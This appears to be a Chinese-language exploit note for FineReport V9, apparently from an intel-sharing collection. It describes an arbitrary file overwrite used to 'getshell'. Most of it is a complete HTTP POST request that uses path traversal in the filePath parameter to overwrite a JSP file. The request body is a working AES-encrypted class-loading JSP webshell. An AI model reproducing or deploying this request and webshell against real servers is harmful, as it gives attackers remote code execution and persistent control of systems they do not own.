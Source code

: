 # 帆软 V9getshell FineReport V9 
注意: 这个漏洞是任意文件覆盖，上传 JSP 马，需要找已存在的 jsp 文件进行覆盖 Tomcat 启动帆软后默认存在的 JSP 文件: 比如：/tomcat-7.0.96/webapps/ROOT/index.jsp 覆盖 Tomcat 自带 ROOT 目录下的 index.jsp:

    POST  /WebReport/ReportServer?  
    op=svginit&cmd=design_save_svg&filePath=chartmapsvg/../../../../WebReport/update.jsp  HTTP/1.1
    Host:  192.168.169.138:8080
    User-Agent:  Mozilla/5.0  (Windows  NT  10.0;  Win64;  x64)  AppleWebKit/537.36  (KHTML,  like  Gecko)  
    Chrome/81.0.4044.92  Safari/537.36
    Connection:  close
    Accept-Au:  0c42b2f264071be0507acea1876c74
    Content-Type:  text/xml;charset=UTF-8
    Content-Length:  675 
    {"__CONTENT__":"<%@page  import=\"java.util.*,javax.crypto.*,javax.crypto.spec.*\"%><%!class  U  extends  
    ClassLoader{U(ClassLoader  c){super(c);}public  Class  g(byte  []b){return  
    super.defineClass(b,0,b.length);}}%><%if(request.getParameter(\"pass\")!=null)  {String  
    k=(\"\"+UUID.randomUUID()).replace(\"-
    \",\"\").substring(16);session.putValue(\"u\",k);out.print(k);return;}Cipher  
    c=Cipher.getInstance(\"AES\");c.init(2,new  
    SecretKeySpec((session.getValue(\"u\")+\"\").getBytes(),\"AES\"));new  
    U(this.getClass().getClassLoader()).g(c.doFinal(new  
    sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInsta  
    nce().equals(pageContext);%>","__CHARSET__":"UTF-8"}

![图片](2021.4.8%20HVV%20%20%E6%83%85%E6%8A%A5%E5%85%B1%E4%BA%AB/640.png)
